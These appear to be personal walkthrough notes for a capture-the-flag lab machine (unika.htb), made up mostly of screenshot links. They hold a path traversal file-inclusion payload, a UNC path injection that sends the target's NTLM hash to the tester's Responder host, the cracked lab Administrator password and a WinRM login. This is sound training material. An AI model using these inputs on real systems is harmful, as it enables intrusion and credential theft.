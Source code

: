 ![[Pasted image 20230910105104.png]]

Plug IP address into web browser and get redirected to:
![[Pasted image 20230910105305.png]]
![[Pasted image 20230910105550.png]]

Add 10.129.22.34 unika.htb to /etc/hosts file & reload web browser
![[Pasted image 20230910110021.png]]
![[Pasted image 20230910110212.png]]
![[Pasted image 20230910110403.png]]
![[Pasted image 20230910110511.png]]
![[Pasted image 20230910110545.png]]
![[Pasted image 20230910111405.png]]
![[Pasted image 20230910111427.png]]

### File Inclusion vulnerability:

![[Pasted image 20230910111533.png]]

page=../../../../../../../../windows/system32/drivers/etc/hosts
![[Pasted image 20230910111829.png]]
![[Pasted image 20230910111853.png]]

![[Pasted image 20230910115943.png]]
![[Pasted image 20230910115954.png]]

![[Pasted image 20230910120252.png]]

## Using Responder
Capital i: ![[Pasted image 20230910120520.png]]
![[Pasted image 20230910120614.png]]
![[Pasted image 20230910120636.png]]
Plug http://unika.htb/?page=//10.10.14.56/somefile into the browser (IP = local IP):
![[Pasted image 20230910122550.png]]
![[Pasted image 20230910122557.png]]

### Hash Cracking:
![[Pasted image 20230910120842.png]]
![[Pasted image 20230910123004.png]]
![[Pasted image 20230910123013.png]]
Administrator password = badminton
![[Pasted image 20230910124047.png]]


### WinRM - logging in with the Administrator credentials
![[Pasted image 20230910123707.png]]
![](../../zzImages/Pasted%20image%2020230919153335.png)
![](../../zzImages/Pasted%20image%2020230919153244.png)
